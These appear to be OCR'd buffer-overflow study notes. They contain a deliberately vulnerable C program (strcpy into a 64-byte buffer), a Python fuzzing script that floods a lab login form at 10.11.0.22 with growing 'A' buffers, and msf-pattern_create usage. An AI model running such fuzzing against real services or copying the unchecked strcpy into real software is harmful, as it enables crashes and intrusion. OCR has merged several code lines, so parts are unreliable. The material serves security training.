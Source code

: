 
# Buffer Overflow

Thread Stack Frame Example
Function A Return Address
Function A parameter 1 
Function A parameter 2 
Function A parameter 3 

## Sample Vulnerable Code
```
#include <stdio.h> 
#include <string.h>

int main(int argc, char *argv[])
{	
    char buffer[64];
    if (argc < 2)
    {
        printf("Error - You must supply at least one argument\n");
        return 1; 
    }
    strcpy(buffer, argv[1]);
    return 0; 
}
```
We right click inside the disassembly window and select Search for > All referenced text
strings:

set break point - f2
Run - f9
Step Into - f7
Continue Till Return - Ctrl+f9

## Fuzzing Script:

```
#!/usr/bin/python 
import socket 
import time 
import sys

size = 100

while(size < 2000):
    try:
        print "\nSending evil buffer with %s bytes" % size inputBuffer = "A" * size
        content = "username=" + inputBuffer + "&password=A"
        buffer = "POST /login HTTP/1.1\r\n"
        buffer += "Host: 10.11.0.22\r\n"
        buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101
        Firefox/52.0\r\n" buffer += "Accept:
        text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n" buffer += "Accept-Language: en-US,en;q=0.5\r\n"
        buffer += "Referer: http://10.11.0.22/login\r\n"
        buffer += "Connection: close\r\n"
        buffer += "Content-Type: application/x-www-form-urlencoded\r\n" buffer += "Content-Length: "+str(len(content))+"\r\n"
        buffer += "\r\n"
        buffer += content
        s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.11.0.22", 80)) s.send(buffer)
        s.close()
        size += 100 time.sleep(10)
    except:
        print "\nCould not connect!" sys.exit()
```


```
kali@kali:~$ locate pattern_create
/usr/bin/msf-pattern_create /usr/share/metasploit-framework/tools/exploit/pattern_create.rb
kali@kali:~$ msf-pattern_create -h
Usage: msf-pattern_create [options]
Example: msf-pattern_create -l 50 -s ABC,def,123 Ad1Ad2Ad3Ae1Ae2Ae3Af1Af2Af3Bd1Bd2Bd3Be1Be2Be3Bf1Bf
Options:
-l, --length <length> The length of the pattern
-s, --sets <ABC,def,123> Custom Pattern Sets
-h, --help Show this message
```

